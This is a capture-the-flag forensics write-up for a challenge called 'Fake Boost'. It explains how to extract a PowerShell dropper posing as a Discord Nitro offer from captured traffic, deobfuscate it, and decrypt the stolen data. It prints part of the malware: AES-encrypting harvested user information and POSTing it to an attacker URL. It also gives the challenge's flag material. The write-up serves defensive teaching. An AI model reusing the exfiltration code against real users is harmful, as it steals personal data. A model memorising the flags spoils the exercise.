



 <font size='10'>Fake Boost</font>

2<sup>nd</sup> March 2024

Prepared By: `gordic`

Challenge Author(s): `gordic`

Difficulty: <font color='green'>Easy</font>

<br><br>

# Synopsis

- User needs to perform .pcap file analysis. Extract the obfuscated PowerShell script, deobfuscate it, and inside it, he should find the first part of the flag and parameters used for data encryption. They can use tools like CyberChef to decrypt data sent to the attacker's server and get the second part of the flag.

## Description

- In the shadow of The Fray, a new test called "Fake Boost" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.

## Skills Required

- Reading Powershell code/syntax
- Basic deobfuscation
- .pcap file forensics
- AES decryption with known parameters

## Skills Learned

- Analyzing network traffic to extract critical data.
- Deobfuscating PowerShell scripts to uncover hidden logic.
- Utilizing AES decryption techniques to reveal sensitive information.

# Enumeration

When examining the .pcapng file, users should focus on analyzing TCP traffic. Within TCP stream 3, they will encounter the contents of the discordnitro.ps1 malicious script being downloaded by the victim.



The PowerShell script requires deobfuscation. The value of the variable $jozeq3n must be reversed and then decoded from Base64 to reveal the malicious PowerShell script.



Within this script, users will discover the first part of the flag.
```powershell
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"
```

Besides the flag's first portion, the user must scrutinize the script to deduce that the server's response is encrypted using AES, with both the key and IV being known and utilized in the encryption process.
```powershell
function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}
```

# Solution

In TCP stream 48, a user can uncover data transmitted from the victim's computer. By leveraging known AES parameters, they can decrypt this data to retrieve the second part of the flag, which resides within the email field.

```python
from Crypto.Cipher import AES
import base64

aes_key_base64 = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
aes_key = base64.b64decode(aes_key_base64)

def decrypt_string(encrypted_base64, key):
    full_data = base64.b64decode(encrypted_base64)
    
    iv = full_data[:AES.block_size]
    encrypted_message = full_data[AES.block_size:]
    
    cipher = AES.new(key, AES.MODE_CBC, iv)
    
    decrypted_bytes = cipher.decrypt(encrypted_message)
    
    pad = decrypted_bytes[-1]
    decrypted_bytes = decrypted_bytes[:-pad]
    
    return decrypted_bytes.decode('utf-8')

encrypted_base64 = ""
decrypted_text = decrypt_string(encrypted_base64, aes_key)
print("Decrypted text:", decrypted_text)

```


